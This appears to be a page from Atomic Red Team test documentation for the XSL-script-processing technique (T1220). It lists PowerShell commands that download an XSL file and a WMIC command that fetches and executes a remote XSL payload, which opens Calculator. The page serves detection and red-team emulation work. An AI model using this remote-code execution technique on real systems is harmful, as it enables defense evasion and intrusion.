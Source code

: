 
#### Dependencies:  Run with `powershell`!
##### Description: XSL file must exist on disk at specified location (#{local_xsl_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{local_xsl_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{local_xsl_file}") -ErrorAction Ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1220/src/wmicscript.xsl" -OutFile "#{local_xsl_file}"
```




<br/>
<br/>

## Atomic Test #4 - WMIC bypass using remote XSL file
Executes the code specified within a XSL script using a remote payload. Open Calculator.exe when test successfully executed, while AV turned off.

**Supported Platforms:** Windows


**auto_generated_guid:** 7f5be499-33be-4129-a560-66021f379b9b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_xsl_file | Remote location of an XSL payload. | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/wmicscript.xsl|
| wmic_command | WMI command to execute using wmic.exe | string | process list|


#### Attack Commands: Run with `command_prompt`! 


```cmd
wmic #{wmic_command} /FORMAT:"#{remote_xsl_file}"
```






<br/>

